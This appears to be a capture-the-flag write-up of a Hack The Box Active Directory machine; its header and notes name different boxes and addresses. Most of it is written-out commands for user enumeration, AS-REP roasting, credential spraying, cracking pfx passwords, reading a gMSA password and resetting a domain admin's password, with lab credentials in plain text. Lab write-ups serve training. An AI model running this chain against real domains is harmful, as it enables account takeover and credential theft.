






# Summary


## about target

tip:  10.129.228.124

hostname:  Reel

Difficulty:  Hard


## about attack

+ Cme sprider_plus and jq to query result.
+ import pfx/p12 file, login web.
+ readGMSAPassword exploit, change password to domain admin.
+ Powershell pscredential usage.


**attack note**

```bash
Search / 10.129.227.156

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Search &mdash; Just Testing IIS
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-01-12 13:25:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2023-01-12T13:28:34+00:00; 0s from scanner time.
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2023-01-12T13:28:33+00:00; -1s from scanner time.
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2023-01-12T13:28:33+00:00; -1s from scanner time.
8172/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Not valid before: 2020-04-07T09:05:25
|_Not valid after:  2030-04-05T09:05:25
| tls-alpn:
|_  http/1.1
|_ssl-date: 2023-01-12T13:28:33+00:00; -1s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49718/tcp open  msrpc         Microsoft Windows RPC

---- Interesting
-- domainuser.txt, from web page and kerbrute

-- found /certsrv, web scan, iis list

Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18

---- Enum 

python namemash.py staff.list > username.txt
kerbrute userenum -d search.htb  --dc $tip username.txt
GetNPUsers.py -usersfile domainuser.txt  -no-pass -dc-ip $tip search.htb/ -format hashcat -outputfile asreproast.hash


--ldap
ldapsearch -H ldap://$tip -x -b "dc=search, dc=htb" > ldap-anonymous.log
ldapsearch -H ldap://$tip  -x -s base namingcontexts
ldapsearch -H ldap://$tip -x -b "DC=active,DC=htb" '(Objectclass=user)' samaccountname | grep -i samaccountname

--web 
gobuster dir -w ~/ptw/wordlists/iis/iisfinal.txt  -t 20 -u http://$tip -x html,txt,aspx -o web/gobuster-iis2.log


--hope enum
bloodhound-python -c All -u hope.sharp  -p 'IsolationIsKey?' -d search.htb -dc $tip --dns-tcp  -ns $tip

# extract user with jq
cat 20230114000647_users.json | jq '.data[].Properties | select  ( .enabled == true) | .name + ":" + .description'

ldapsearch -x -H ldap://$tip -D 'search\hope.sharp' -w 'IsolationIsKey?' -b "DC=search,DC=htb"  > ldap-hope.log

ldapsearch -x -H ldap://$tip -D 'search\hope.sharp' -w 'IsolationIsKey?' -b "DC=search,DC=htb" '(Objectclass=user)' samaccountname | grep -i samaccountname | awk -F: '{print $2}' > ../domainuser.txt

# office password protected, remove password
# https://www.myonlinetraininghub.com/easily-remove-excel-password-protection


--sirre enum
bloodhound-python -c All -u Sierra.Frye -p '$$49=wide=STRAIGHT=jordan=28$$18' -d search.htb -dc research.search.htb --dns-tcp  -ns $tip

cme smb $tip -u userexcel.txt -p pwdexcel.txt --no-bruteforce --continue-on-success

smbmap -H $tip -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -R RedirectedFolders$

smbclient //$tip/RedirectedFolders$ -U 'Sierra.Frye' --password='$$49=wide=STRAIGHT=jordan=28$$18'

pfx2john staff.pfx > staff.hash
pfx2john search-RESEARCH-CA.p12 > search-ca.hash
john --wordlist=/usr/share/wordlists/rockyou.txt staff.hash
---- Foothold
webb 443, /staff import pfx file.
login via serra, web powershell


---- System
## readGMSAPassword
## https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword

# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "search.htb\BIR-ADFS-GMSA",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword

# creds, run command
Invoke-Command -ComputerName research -cred $cred -scriptblock {whoami}

Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Passwd123$' -force)} -Credential $cred

```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


## hope enum








# Foothold








# Privesc








## proof

```bash


```


